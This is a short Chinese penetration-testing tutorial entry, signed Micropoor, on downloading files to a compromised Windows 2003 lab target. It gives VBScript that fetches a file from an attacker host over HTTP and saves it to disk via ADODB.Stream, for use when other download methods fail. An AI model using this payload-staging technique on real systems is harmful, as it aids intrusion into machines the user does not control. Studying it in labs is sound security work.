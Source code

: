 在实战中，会碰到许多让人敬畏的环境，也许无法执行，或者无法把下载参数带入其中，故补充第七季 vbs 参数化的下载。

**靶机：**windows 2003  
![](media/130baad813eacf09b1932ecb7e5d4279.jpg)

![](media/d434ad0c2a6c5f531e908fedca5f2044.jpg)

### 附：源码如下：
```visual basic
strFileURL = "http://192.168.1.115/robots.txt"
strHDLocation = "c:\\test\\logo.txt"
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
objXMLHTTP.open "GET", strFileURL, false
objXMLHTTP.send()
If objXMLHTTP.Status = 200 Then
Set objADOStream = CreateObject("ADODB.Stream")
objADOStream.Open
objADOStream.Type = 1
objADOStream.Write objXMLHTTP.ResponseBody
objADOStream.Position = 0
Set objFSO = CreateObject("Scripting.FileSystemObject")
If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocati on
Set objFSO = Nothing
objADOStream.SaveToFile strHDLocation
objADOStream.Close
Set objADOStream = Nothing
End if
Set objXMLHTTP = Nothing
```
>   Micropoor
